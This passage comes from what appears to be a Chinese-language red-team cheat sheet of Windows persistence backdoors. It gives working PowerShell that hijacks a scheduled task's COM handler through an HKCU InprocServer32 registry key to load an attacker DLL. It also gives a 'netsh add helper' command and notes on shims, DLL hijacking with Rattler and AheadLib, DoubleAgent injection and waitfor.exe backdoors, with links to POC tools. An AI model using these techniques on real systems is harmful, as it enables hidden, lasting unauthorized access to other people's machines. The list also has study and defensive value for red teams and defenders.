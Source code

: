 ```
[String]
$Command,

[Switch]
$Force
)
$ScheduledTaskCommandPath = "HKCU:\Software\Classes\CLSID\{58fb76b9-ac85-4e55-ac04-427593b1d060}\InprocServer32"
if ($Force -or ((Get-ItemProperty -Path $ScheduledTaskCommandPath -Name '(default)' -ErrorAction SilentlyContinue) -eq $null)){
New-Item $ScheduledTaskCommandPath -Force |
New-ItemProperty -Name '(Default)' -Value $Command -PropertyType string -Force | Out-Null
}else{
Write-Verbose "Key already exists, consider using -Force"
exit
}

if (Test-Path $ScheduledTaskCommandPath) {
Write-Verbose "Created registry entries to hijack the UserTask"
}else{
Write-Warning "Failed to create registry key, exiting"
exit
} 
}
Invoke-ScheduledTaskComHandlerUserTask -Command "C:\test\testmsg.dll" -Verbose
```
##### 15、[Netsh](https://3gstudent.github.io/3gstudent.github.io/Netsh-persistence/) 
```
netsh add helper c:\test\netshtest.dll
```
后门触发：每次调用netsh
>dll编写:https://github.com/outflanknl/NetshHelperBeacon

##### 16、[Shim](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84Application-Compatibility-Shims/) 
常用方式：
InjectDll
RedirectShortcut
RedirectEXE
##### 17、[DLL劫持](https://3gstudent.github.io/3gstudent.github.io/DLL%E5%8A%AB%E6%8C%81%E6%BC%8F%E6%B4%9E%E8%87%AA%E5%8A%A8%E5%8C%96%E8%AF%86%E5%88%AB%E5%B7%A5%E5%85%B7Rattler%E6%B5%8B%E8%AF%95/)
通过Rattler自动枚举进程，检测是否存在可用dll劫持利用的进程
使用：Procmon半自动测试更精准，常规生成的dll会导致程序执行报错或中断，使用AheadLib配合生成dll劫持利用源码不会影响程序执行
工具：https://github.com/sensepost/rattler
工具：https://github.com/Yonsm/AheadLib
##### 18、[DoubleAgent ](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84Application-Verifier(DoubleAgent%E5%88%A9%E7%94%A8%E4%BB%8B%E7%BB%8D)/)
编写自定义Verifier provider DLL
通过Application Verifier进行安装
注入到目标进程执行payload
每当目标进程启动，均会执行payload，相当于一个自启动的方式
POC : https://github.com/Cybellum/DoubleAgent
##### 19、[waitfor.exe ](https://3gstudent.github.io/3gstudent.github.io/Use-Waitfor.exe-to-maintain-persistence/)
不支持自启动，但可远程主动激活，后台进程显示为waitfor.exe
POC : https://github.com/3gstudent/Waitfor-Persistence